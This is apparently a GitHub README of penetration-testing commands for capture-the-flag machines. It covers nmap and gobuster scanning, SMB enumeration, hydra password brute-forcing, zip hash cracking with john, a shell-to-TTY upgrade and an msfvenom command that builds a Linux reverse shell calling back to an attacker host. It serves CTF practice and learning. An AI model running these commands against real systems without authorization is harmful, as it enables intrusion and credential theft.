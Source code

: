 
# CTF_Cookbook
A collection of tool commands and scripts for capture the flag machines

  # Nmap (Port scanning tool)
      
  Discover common ports and their versions. Output all formats to an nmap folder
      
  ```bash
  nmap -sC -sV -oA nmap/[filename] [box_ip_address]
  ```
  An aggressive detection scan 
      
  ```bash
  nmap -T4 -A -oA nmap/[filename] [box_ip_address]
  ```
  Scan all ports and write results to file in all formats
  
  ```bash
  nmap -p- -oA [FILENAME] [RHOST_IP]
  ```
  
  Scan all ports and then search through XML file results with SearchSploit to find possible exploits
  ```bash
  nmap -p- -sV -oX [FILENAME.xml] [RHOST_IP]; searchsploit --nmap [FILENAME.xml]
  ```

  # Gobuster (Directory scanning tool)
  
  Scan directories on port using list in file directory-list-2.3-medium.txt and output it to file gobuster.log
  
  ```bash
  gobuster -u http://[RHOST_IP]:[PORT] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log
  ```
  
  Scan multiple directories using a for loop
  ```bash
  for i in admin test dev backup loop; do
  gobuster -u http://[RHOST_IP]:[PORT]/$i -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster-$i.log
  done
  ```
  # SMBMAP (SMB enumeration tool)
  
  check for any available samba shares on the host
  
  ```bash
  smbmap -H [RHOST_IP]
  ```
  
  # LFTP (Sophisticated file transfer program)
  
  Connect to ftp server as anonymous user and run a command (In this example "ls") upon login
  
  ```bash
  lftp -u anonymous -e "ls" [RHOST_IP]
  ```
  
  # HYDRA (a very fast network logon cracker which support many different services)
  
  scan smb share with a known user against a password list
  
  ```bash
  hydra -l [USERNAME] -P [PASSWORDS.txt] smb://[RHOST_IP]
  ```
  
  # XXD (make a hexdump or do the reverse.)
  
  Reverse hex in a file
  
  ```bash
  cat [HEXFILE.txt] | xxd -r -p > [DECODED_FILE.txt]
  ```
  
  # zip2john (Crack password protected zip files.)
  
  Get hash from zip file and send to an output file for cracking
  
  ```bash
  zip2john [ZIPFILE.zip] > [OUTPUTFILE.zip.hash]
  ```
  Crack zip file hash using wordlist rockyou.txt
  
  ```bash
  john --wordlist=[/usr/share/wordlists/rockyou.txt] [OUTPUTFILE.zip.hash]
  ```
  
  # Base64 (base64 encode/decode data and print to standard output)
  
  Decode base64 contained in a file
  
  ```bash
  base64 -d [FILE_TO_DECODE.txt]
  ```
  # tr (translate or delete characters)
  
  Wipe all whitespace including newlines
  
  ```bash
  cat [FILE.txt] | tr -d " \t\n\r"
  ```

  # Upgrade the Interactive Shell to a Full TTY Shell
  
  ```bash
  python -c 'import pty; pty.spawn("/bin/bash")'
  export TERM=xterm
  Ctrl-z
  stty raw -echo
  fg
  reset
  ```
  
  # MSVENOM (Payload Generator and Encoder)
  
  Create 32-bit reverse shell for Linux 
  
  ```bash
  msfvenom -p linux/x86/shell_reverse_tcp LHOST=[LHOST_IP] LPORT=[LHOST_PORT] -f elf -o rev
  ```
  
  
  
  
